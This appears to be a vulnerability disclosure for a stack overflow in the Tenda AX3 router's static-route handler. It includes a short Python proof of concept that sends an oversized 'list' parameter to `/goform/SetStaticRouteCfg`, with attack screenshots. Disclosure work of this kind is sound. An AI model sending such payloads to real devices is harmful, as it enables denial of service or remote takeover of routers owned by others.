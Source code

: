# Stack Overflow Vulnerability in Tenda Router AX3 ([V16.03.12.11](https://www.tenda.com.cn/material/show/103476))

## Overview

A stack overflow vulnerability exists in the latest version V16.03.12.11 of the Tenda Router AX3. This vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf` call, where improper input parameters from the `/goform/SetStaticRouteCfg` page lead to data being concatenated onto the stack without any checks.

## Vulnerability Details

In the latest version `V16.03.12.11` of the Tenda Router AX3, a vulnerability occurs in the `save_staticroute_data` function's `_isoc99_sscanf`. 

When handling requests from the `/goform/SetStaticRouteCfg` page, the construction of the parameter list can influence the `save_staticroute_data` function, causing input to be concatenated onto the stack by the `sscanf` function without any checks, leading to a stack overflow. 

![image-20250203211326509](./assets/image-20250203211326509.png)

![image-20250203211413402](./assets/image-20250203211413402.png)

With appropriate parameter construction, this can result in denial of service (DoS) and remote code execution (RCE).

## POC

```
from pwn import *
import requests

url = "http://172.18.231.176/goform/SetStaticRouteCfg"

retaddr="bbbb"
payload = "1,2,3,"+"a"*0x674+p32(retaddr)
data = {
    "list": payload,
}
res = requests.post(url=url,data=data)
print(res.text)
```

## AttackDemo



![image-20250203214025940](./assets/image-20250203214025940.png)
![image-20250203232553401](./assets/image-20250203232553401.png)
![image-20250203232906046](./assets/image-20250203232906046.png)
![image-20250203232818981](./assets/image-20250203232818981.png)
